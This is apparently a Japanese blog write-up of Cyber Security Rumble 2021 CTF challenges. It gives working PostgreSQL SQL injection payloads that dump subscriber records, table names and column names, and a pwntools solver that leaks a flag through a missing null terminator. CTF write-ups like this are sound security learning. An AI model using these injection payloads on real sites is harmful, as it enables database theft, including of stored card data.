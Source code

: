 ```yaml
---
title: Cyber Security Rumble CTF 2021 Writeup
date: "2021-11-30"
template: "post"
draft: false
slug: "ctf-rumblectf-2021"
category: "CTF"
tags:
  - "CTF"
  - "Web"
  - "Pwn"
description: "2021/11/26から開催されていたCyber Security  Rumble 2021 CTFに参加してきました。"
socialImage: "/media/cards/ctf-elf-training.png"
---
```


2021/11/26から開催されていたCyber Security  Rumble 2021 CTFに参加してきました。

いくつかWriteUpを書いていきます。

<!-- omit in toc -->
## もくじ
- [Stonks Street Journal(Web)](#stonks-street-journalweb)
	- [SQLインジェクションで他のユーザの情報を取得する](#sqlインジェクションで他のユーザの情報を取得する)
	- [SQLインジェクションで他のテーブルを探索する](#sqlインジェクションで他のテーブルを探索する)
	- [SQLインジェクションでカラムの情報を探索する](#sqlインジェクションでカラムの情報を探索する)
- [Flag Checker, Baby(Pwn)](#flag-checker-babypwn)
- [まとめ](#まとめ)

## Stonks Street Journal(Web)

Webサイトにアクセスすると、会員制のニュースニュースサイトにアクセスできます。

会員登録を行うと、ユーザ登録は完了しないものの、登録情報が確認できるInvoiceページにリダイレクトされます。

このページは、以下のようなURLでアクセスされるページであり、`username-2021-11-27`のような登録ユーザと日付をBase64エンコーディングしたパスで管理されています。

`http://ssj.rumble.host/legacy_invoice_system/dGVzdHVzZXItMjAyMS0xMS0yNw==`

ここで、usernameの部分か日付の部分をフォーマットに合わない適当な文字列に変更してみたところ、SQL文のエラーが発生したため、SQLインジェクションの脆弱性が存在することがわかりました。

### SQLインジェクションで他のユーザの情報を取得する

まずはテーブル内の他のユーザの情報を探索するところから始めました。

探索にはUNIONインジェクションが使えそうでした。

ユーザを管理しているテーブル名についてはWHEREやHAVINGなどのコマンドを使ってエラーメッセージを出力させることで、`news_subscriber`であるということが特定できました。

``` sql
Rakete-2021-11-26' UNION SELECT id,username,null,pensi,email,credit_card,null FROM news_subscriber WHERE id=10--
```

そのため、上記のようなコマンドでIDやUsernameを指定してユーザページを一つずつ確認することができます。

しかし、残念ながら`news_subscriber`のテーブルをすべて探索しても、Flagにつながりそうなユーザは存在しませんでした。

### SQLインジェクションで他のテーブルを探索する

次に、`news_subscriber`以外のテーブルを見つけるべく、探索を行うことにしました。

``` sql
Rakete-2021-11-26' UNION SELECT id,version(),null,null,null,null,null FROM news_subscriber
```

データベースの種類については、上記のように`version()`コマンドを利用することで、Postgresであることが特定できました。

データベースがPostgresであるので、テーブル情報については`pg_tables`の`tablename`から参照することができます。

取得方法はいくつかありますが、先頭から順に網羅するなら`LIMIT 1 OFFSET n`の構文が便利です。

また、特定の文字列を含むテーブルを探索したい場合には`LIKE`も有効です。

``` sql
# 6番目のテーブルをSQLインジェクションで取得
Rakete-2021-11-26';SELECT null,tablename,null,null,null,null,null FROM pg_tables LIMIT 1 OFFSET 6;--

# テーブル名にnameが含まれるテーブルをSQLインジェクションで取得
Rakete-2021-11-26';SELECT null,tablename,null,null,null,null,null FROM pg_tables WHERE tablename LIKE '%name%';--
```

上記の方法でテーブルを探索した結果、`news_article`というテーブルが見つかりました。

### SQLインジェクションでカラムの情報を探索する

Flagはどうやら`news_article`テーブルに存在していそうだということがわかりました。

そのため、`news_article`テーブルのカラムについて探索していきます。

Postgresの場合、特定のテーブルのカラムの情報は`information_schema.columns WHERE table_name='news_article'`の形式で絞りこむことができます。

あとは先ほどテーブル情報を取得したときと同じく、LIMITやLIKEを使ってカラムの情報を洗い出した後、UNIONインジェクションを用いてカラムの情報を取得することで、Flagを取得できます。

``` sql
Rakete-2021-11-26';SELECT null,column_name,null,null,null,null,null FROM information_schema.columns WHERE table_name='news_article' AND column_name LIMIT 1 OFFSET 3;--

Rakete-2021-11-26';SELECT null,column_name,null,null,null,null,null FROM information_schema.columns WHERE table_name='news_article' AND column_name LIKE '%te%'--
```

この方法を用いることで、以下のようにInvoiceページのタイトルからFlagの情報を取得することができました。

![image-14.png](../../static/media/2021-11-30-ctf-rumblectf-2021/image-14.png)

参考：[Stonks Street Journal - CTFs](https://ctf.zeyu2001.com/2021/cybersecurityrumble-ctf/stonks-street-journal)

## Flag Checker, Baby(Pwn)

バイナリとソースコードが与えられます。

ソースコードを読むと、以下の挙動になることがわかります。

1. 入力された文字列とFLAGをcheck関数に渡す
2. 入力された文字列が32バイト(guessのサイズ)より大きい場合は、関数は呼び出されない
3. 変数guessには、入力した文字列が格納される
4. 変数flagには、FLAGが格納される
5. 変数flagと変数guessはstrcmpで比較され、一致した場合はフラグが表示され、不一致の場合はguessの値が表示される
6. ローカル変数のメモリアドレスを考えると、変数flagは変数guessの後に連結して配置されている
7. guess変数は32バイトまでしか受け取れないので、32バイト分のヌル文字を含まない値を入力することで、`printf("Wrong flag: %s\n", guess);`の行に連結された変数guessと変数flagの値が出力される。

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void check(const char *input, const char *secret_flag) {	
	char guess[32], flag[64];
	if (strlen(input) > sizeof(guess)) {
		puts("HACKER!");
		return;
	}

	strncpy(guess, input, sizeof(guess));
	strncpy(flag, secret_flag, sizeof(flag));
	if (!strcmp(guess, flag)) {
		printf("Well done! You got it: %s\n", flag);
	}
	else {
		printf("Wrong flag: %s\n", guess);
	}
}

int main(int argc, char** argv) {
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stdin, NULL, _IONBF, 0);

	char *secret_flag = getenv("FLAG");
	if (!secret_flag) {
		puts("Flag not found, contact challenge authors.");
		return 1;
	}

	char input[128];
	printf("Enter the flag: ");
	fgets(input, sizeof(input), stdin);
	check(input, secret_flag);

	return 0;
}
```

このSolverでFLAGを取得できます。

``` python
from pwn import *
import binascii
import time

elf = ELF("./chall")
context.binary = elf

payload = b"\x41"*31

# Local
p = process("./chall")
# p = remote("challs.rumble.host", 53921)

r = p.recv()
p.sendline(payload)
p.interactive()
```

参考：[CTF-writeups/Pwn - Flag Checker, Baby.md at main · aly-ab/CTF-writeups](https://github.com/aly-ab/CTF-writeups/blob/main/notes/cybersecurityrumble/Pwn%20-%20Flag%20Checker%2C%20Baby.md)

## まとめ

Revの問題にLinuxのGame問題があったので何とか解きたかったのですが、結局解くことができませんでした。

WriteUpが見当たらないのでいまだに謎のままですが、もしWriteUpが見つかればこの記事も更新しようと思います。
